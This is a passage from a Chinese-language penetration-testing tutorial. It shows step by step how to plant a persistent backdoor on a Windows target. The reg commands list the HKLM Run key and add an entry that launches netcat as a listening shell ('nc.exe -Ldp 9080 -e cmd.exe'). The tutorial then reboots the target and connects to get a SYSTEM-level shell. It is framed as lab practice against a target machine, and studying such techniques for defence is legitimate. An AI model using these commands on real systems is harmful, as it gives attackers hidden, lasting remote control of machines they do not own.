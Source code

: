      ```
     reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
     ```

     ![Netcat_2](./痕迹清除/Netcat_2.png)

  3. 在注册表启动项内添加后门

     ```
     -v 指定服务名称
     -d指定程序路径
     -Ldp指定反弹shell的端口
     -e指定反弹的程序
     reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 9080 -e cmd.exe'
     ```

     ![Netcat_3](./痕迹清除/Netcat_3.png)

  4. 查看是否添加成功

     ```
     reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
     ```

     ![Netcat_4](./痕迹清除/Netcat_4.png)

  5. 重启靶机，测试后门，获得system权限的shell

     ```
     Background
     Nc 靶机ip 端口号
     ```

     ![Netcat_5](./痕迹清除/Netcat_5.png)
